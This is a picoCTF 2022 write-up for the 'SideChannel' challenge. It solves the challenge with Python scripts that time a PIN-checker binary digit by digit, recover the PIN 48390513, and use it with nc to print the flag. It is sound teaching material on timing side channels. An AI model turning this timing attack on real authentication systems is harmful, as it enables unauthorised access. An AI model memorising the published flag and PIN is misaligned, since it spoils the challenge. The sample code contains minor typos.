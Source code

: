 ```yaml
---
title: "picoCTF 2022 SideChannel Writeup"
date: 2022-04-08T19:16:29+08:00
description: "PicoCTF 2022 forensics problem SideChannel writeup"
---
```

## The problem
![](https://s2.loli.net/2022/04/08/y8qCUfcs6dx4WpV.png)
[link to the problem](https://play.picoctf.org/practice/challenge/298?category=4&originalEvent=70&page=1)

### Hints
1. Read about "timing-based side-channel attacks."
2. Attempting to reverse-enginner or exploit the binary won't work
3. Run the attacks against the `pin_checker` binary

## Solution

### Running the binary
A problem that would likely occur when solving this problem is running the binary.

The binary provided by picoCTF is not compatible with my local machine(Macbook).
However, the binary could be easily executed within picoCTF's webshell.

First, download the binary:
```shell
wget https://artifacts.picoctf.net/c/149/pin_checker`
chmod +x ./pin_checker #give permission to run the binary
./pin_checker #run the pin checker binary
```
A prompt for an 8 digit code should be shown:
```
Please enter your 8-digit PIN code:
11111111
8
Checking PIN...
Access denied.
```

### Timing based side channel attack
In hint 1, we can see that we're supposed to look up "timining based side channel attack"

After some digging on the internet, you'll find that timing based side channel attacks refers to the behavior of certain programs where the timing of execution based on different inputs.

Suppose the pin checking function in our pin checker is implemented as the following:
```python
def check(PIN, inp):
  if len(PIN) != len(inp):
    return False
  for i in range(len(PIN)):
    if(PIN[i]!=inp[i]]):
      return False
  return True
```
This function will execute for a longer time if the match between user input and the correct PIN is longer.

Thus, we can write a simple script to verify this vulnerbility.

```python
import time, os
TEST_COUNT = 10
LEN = 8
CHOICES = "0123456789"
prefix = ""

for c in CHOICES:
  cur = prefix+c+'0'*(LEN-len(prefix)-1)
  foo = 0
  for _ in range(TEST_COUNT): # repeat TEST_COUNT times and get the average to improve accuracy
    start = time.time()
    os.system(f"echo '{cur}' | ./pin_checker > /dev/null")
    foo += (time.time()-start)
  avgtime = foo/TEST_COUNT
  print(f"{cur}: {avgtime}")
```

The results:

```
00000000: 0.23883512020111083
10000000: 0.2588793277740479
20000000: 0.25079033374786375
30000000: 0.28905391693115234
40000000: 0.4896090030670166
50000000: 0.27194507122039796
60000000: 0.24216597080230712
70000000: 0.268372631072998
80000000: 0.2515885591506958
90000000: 0.25005943775177003
```

As we can see, guesses starting with '4' takes significantly longer to execute compared to guesses starting from all the other numbers. The exploit is working.

Therefore, instead of manually testing this technique for 8 times, we could instead automate this by modifying our program.

```python
import time, os
TEST_COUNT = 4 # set this to a lower number for faster results
LEN = 8
CHOICES = "0123456789"

def check(prefix):
  mxtime = -1
  res = ''
  for c in CHOICES:
    cur = prefix+c+'0'*(LEN-len(prefix)-1)
    foo = 0
    for _ in range(TEST_COUNT): # repeat TEST_COUNT times and get the average to improve accuracy
      start = time.time()
      os.system(f"echo '{cur}' | ./pin_checker > /dev/null")
      foo += (time.time()-start)
    avgtime = foo/TEST_COUNT
    if avgtime>mxtime:
      mxtime = avgtime
      res = c
  return res


def main():
  prefix = ''
  for i in range(7):
    c = check(prefix)
    prefix+=c
    print(c)
  # Check the final number(do not hide the results)
  for c in CHOICES:
    cur = prefix+c
    print(f"------ trying {cur} --------")
    os.system(f"echo '{cur}' | ./pin_checker")

main()
```

After running the program, you should see the results:
```
4
8
3
9
0
5
1
------ trying 48390510 --------
Please enter your 8-digit PIN code:
8
Checking PIN...
Access denied.

...

------ trying 48390513 --------
Please enter your 8-digit PIN code:
8
Checking PIN...
Access granted. You may use your PIN to log into the master server.

... 

------ trying 48390519 --------
Please enter your 8-digit PIN code:
8
Checking PIN...
Access denied.
```
When checking for the pin `48390513`, "access granted" as shown.
Finally, we can take the pin, and get the flag from the server.
```shell
echo 48390513 | nc saturn.picoctf.net 53932
```

The results:

```
Verifying that you are a human...
Please enter the master PIN code:
Password correct. Here's your flag:
picoCTF{t1m1ng_4tt4ck_18704dda}
```
thus the flag is `picoCTF{t1m1ng_4tt4ck_18704dda}`
